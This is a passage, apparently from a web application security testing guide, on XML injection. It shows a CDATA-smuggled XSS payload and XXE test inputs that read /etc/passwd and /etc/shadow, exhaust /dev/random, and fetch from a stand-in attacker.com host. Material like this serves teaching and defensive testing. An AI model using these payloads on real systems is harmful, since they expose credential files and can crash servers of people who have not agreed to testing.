Let's consider a concrete example. Suppose we have a node containing some text that will be displayed back to the user.

```xml
<html>
    $HTMLCode
</html>
```

Then, an attacker can provide the following input:

`$HTMLCode = <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>`

and obtain the following node:

```xml
<html>
    <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>
</html>
```

During the processing, the CDATA section delimiters are eliminated, generating the following HTML code:

```html
<script>
    alert('XSS')
</script>
```

The result is that the application is vulnerable to XSS.

External Entity: The set of valid entities can be extended by defining new entities. If the definition of an entity is a URI, the entity is called an external entity. Unless configured to do otherwise, external entities force the XML parser to access the resource specified by the URI, e.g., a file on the local machine or on a remote systems. This behavior exposes the application to XML eXternal Entity (XXE) attacks, which can be used to perform denial of service of the local system, gain unauthorized access to files on the local machine, scan remote machines, and perform denial of service of remote systems.

To test for XXE vulnerabilities, one can use the following input:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///dev/random" >]>
        <foo>&xxe;</foo>
```

This test could crash the web server (on a UNIX system), if the XML parser attempts to substitute the entity with the contents of the /dev/random file.

Other useful tests are the following:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```
